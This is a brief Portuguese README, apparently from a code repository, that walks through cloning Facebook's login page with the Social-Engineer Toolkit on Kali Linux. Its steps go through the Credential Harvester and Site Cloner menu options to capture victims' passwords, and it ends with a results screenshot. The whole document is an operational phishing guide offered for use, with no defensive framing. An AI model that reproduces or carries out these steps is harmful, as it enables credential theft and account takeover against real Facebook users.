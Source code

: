 # Phishing para captura de senhas do Facebook  

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- kali Linux entra no terminal com ``` sudo su ```
- Executar setookit: ``` setoolkit ```
- Escolher primeira opção: ``` 1)Social-Engineering Attacks ```
- Agora segunda opção: ``` 2)Web Site Attack Vectors ```
- Selecionar opção: ``` 3)Credential Harvester Attack Method ```
- Agora clonar o site opção: ``` 2)Site Cloner ```
- Verificar o ip da maquina para escutar: ``` ifconfig ```
- Agora clone o site no set:webattack> Enter the url to clone: http://www.facebook.com

### Resutados

![Alt text](./senha.png "Optional title")
